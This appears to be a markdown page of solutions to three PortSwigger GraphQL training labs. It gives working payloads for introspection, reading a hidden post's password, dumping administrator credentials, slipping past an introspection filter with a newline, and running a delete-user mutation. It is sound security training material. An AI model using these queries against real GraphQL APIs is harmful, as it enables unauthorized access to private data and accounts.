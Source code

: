 ## Accessing private GraphQL posts
[Accessing private GraphQL posts](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)

Write-up: 
1. We need to get the password of the hidden blog post. Intercepting the request to / shows us a POST request to /graphql/v1: <br>
   
    ```
    {"query":"\nquery getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}","operationName":"getBlogSummaries"}
    ``` 

    We can see by the response to this request that the post with id=3 isn't being displayed.

2. Using introspection, we can find more about the schema:

    `"query": "query { __schema { types { name fields { name } } } }"`

    We discover a getBlogPost query, as well as a postPassword field.

3. To find out more about the getBlogPost query, we use:

    ```
    {
    "query": "query { __type(name: \"query\") { fields { name args { name type { kind name ofType { kind name } } } type { kind name ofType { kind name } } } } }"
    }

    ```

4. Using the new information we got, we can craft a request to get us the missing post:

    ```
    {
    "query": "query getBlogPostById($id: Int!) { getBlogPost(id: $id) { image title summary id postPassword } }",
    "operationName": "getBlogPostById",
    "variables": { "id": 3 }
    }
    ```

    This reveals the password: **l58w5rj7y2lqog9oqpgautmrocsirx7r**

## Accidental exposure of private GraphQL fields
[Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

Write-up:
1. Using introspection, we can find more about the schema:

    `"query": "query { __schema { types { name fields { name } } } }"`

    We discover a getUser query and a User object.

2. To get more information about User we use:

    ```
    {"query":"{ __type(name: \"User\") { name fields { name type { name kind ofType { name kind } } } } }"}
    ```

    This shows us User object has id, username and password.

3. To get admin details:

    `{"query":"query { getUser(id: 1) { id username password } }"}`

    This shows credentials **administrator:6fegsn30pc958nfulcl8**

4. Logging in gives us access to admin panel which allows us to selete user **carlos** and solve the lab.

## Finding a hidden GraphQL endpoint
[Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

Write-up:
1. Attempting to access some common locations for GraphQL endpoints makes us find /api,
which returns a JSON with "Query not present".

2. Attempting to access **/api?query={__schema{queryType{name}}}** returns "GraphQL introspection is not allowed, but the query contained __schema or __type".

3. To bypass, we use `GET /api?query={__schema%0A{types{name,kind,fields{name,type{name,kind}}}}}` and we find a deleteOrganizationUser mutation. <br>

    ```
    GET /api?query=query%7B__type%0A(name:%22mutation%22)%7Bfields%7Bname%20args%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%20type%7Bname%20kind%7D%7D%7D%7D
    ``` 

    This shows us there are objects called DeleteOrganizationUserInput and DeleteOrganizationUserResponse.

    ```
    GET /api?query=query%7B__type%0A(name:%22DeleteOrganizationUserInput%22)%7Bname%20kind%20inputFields%7Bname%20type%7Bname%20kind%20ofType%7Bname%20kind%7D%7D%7D%7D%7D
    ```

    We find out that this object takes in the user id as a parameter.

4. We need to find carlos' user id. Iterating from 1 to 3 shows us that carlos has id=3.

    ```
    GET /api?query=query%7BgetUser(id:3)%7Bid%20username%7D%7D
    ```

5. This payload deletes user carlos and completes the lab:

    ```
    GET /api?query=mutation%0A%7BdeleteOrganizationUser(input:%7B%20id:3%20%7D)%20%7Buser%20%7Bid%20username%7D%7D%7D
    ```
